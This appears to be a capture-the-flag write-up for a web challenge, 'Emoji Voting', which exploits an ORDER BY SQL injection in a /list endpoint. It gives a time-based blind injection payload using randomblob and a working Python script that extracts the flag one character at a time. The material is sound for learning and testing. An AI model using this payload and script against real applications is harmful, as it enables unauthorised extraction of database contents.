 # Emoji Voting

Challenge text:
```
A place to vote your favourite and least favourite puny human emojis!
```
Along with the [source code](web_emoji_voting).

The website is quite simple, and allows you to vote on an emoji by clicking on it. Every 5 seconds it'll send a request to `/list` with the payload `{"order":"count DESC"}`, to update the votes for the emojis. As you may already be able to tell, this is very likely an SQL injection, as the client seems to be able to choose the order to sort the result by themself.

If we look at the source code we see that it, we see that the `/list` endpoints returns the result of this query: `SELECT * FROM emojis ORDER BY ${ order }`, where `order` should be `count DESC`, but can be chosen by the user. This allows us to perform blind SQL injection, and get the flag character by character.

As the server didn't give any response, I had to perform a sleep based injection, I wrote the payload `(SELECT name, CASE WHEN substr(flag, <position>, 1) == '<character>' THEN randomblob(2000000) ELSE 'Yes' END FROM sqlite_master) DESC;`. This will perform run `randomblob(2000000)` if the character in a specific position is equal to the one we sent in. Runing `randomblob()` with a high number will take a significant amount of time,so if the request takes longer than usual, we know that we have the correct character from the DB.

Similar to both [E.Tree](../etree) and [Wild Goose Hunt](../wild_goose_hunt), I wrote a Python script to perform the injection.
```py
import requests

final = ""

for x in range(len(final), 100):
    for y in range(0x20, 0x80): # for every x position, try the character y (0x20 - 0x7e are the "characters" in the ASCII table)
        if y == 0x7f:
            print("done!")
            __import__("sys").exit()
        
        y = chr(y)

        # x is the position, and y is the character
        sqli = f"(SELECT CASE WHEN substr(flag, {x+1}, 1) == '{y}' THEN randomblob(2000000) ELSE 'Yes' END FROM flag_efaf0a5343) DESC;" # i got the table name by running the script earlier and reading name from sqlite_master
        res_time = requests.post("http://188.166.172.13:31026/api/list", json={"order": sqli}).elapsed.total_seconds()

        if res_time > 0.5: # if the request takes longer than 0.5 seconds, randomblob(2000000) was ran, which means we have the correct character
            final += y
            break
    print(final)
```
This will slowly give us the flag.